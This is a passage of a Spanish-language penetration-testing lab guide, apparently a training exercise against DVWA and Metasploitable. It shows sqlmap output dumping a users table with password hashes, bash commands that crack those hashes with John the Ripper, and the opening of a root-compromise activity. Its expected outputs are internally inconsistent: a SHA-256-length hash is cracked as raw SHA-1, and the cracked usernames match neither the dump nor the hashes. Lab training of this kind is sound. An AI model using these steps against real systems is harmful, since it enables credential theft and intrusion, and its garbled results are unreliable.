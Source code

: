 **✅ Resultado Esperado:**
```
[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
[INFO] target URL content is stable
[INFO] testing if GET parameter 'id' is dynamic
[INFO] GET parameter 'id' appears to be dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[INFO] testing for SQL injection on GET parameter 'id'

Database: dvwa
Table: users
[5 entries]
+--------+---------------------+---------+
| user   | password            | user_id |
+--------+---------------------+---------+
| admin  | 5e884898da28047...  | 1       |
| gordonb| e99a18c428cb38d...  | 2       |
| 1337   | 8d3533d75ae2c39...  | 3       |
| pablo  | 0d107d09f5bbe40...  | 4       |
| smithy | 5d41402abc4b2a7...  | 5       |
+--------+---------------------+---------+
```

**2.5 Cracking de Passwords**

```bash
# Guardar hashes en archivo
echo "5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8" > /tmp/hashes.txt
echo "e99a18c428cb38d5f260853678922e03abd12345" >> /tmp/hashes.txt
echo "8d3533d75ae2c3966d7e0d4fcc69216b75de9d10" >> /tmp/hashes.txt

# Usar John the Ripper
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hashes.txt

# Ver resultados
john --show --format=raw-sha1 /tmp/hashes.txt
```

**✅ Resultado Esperado:**
```
admin:password
hello:password
letmein:password

3 password hashes cracked, 0 left
```

---

### 💥 ACTIVIDAD 3: Compromiso de Metasploitable (25 minutos)

#### Objetivo
Obtener acceso root completo al sistema Metasploitable usando múltiples vectores de ataque.
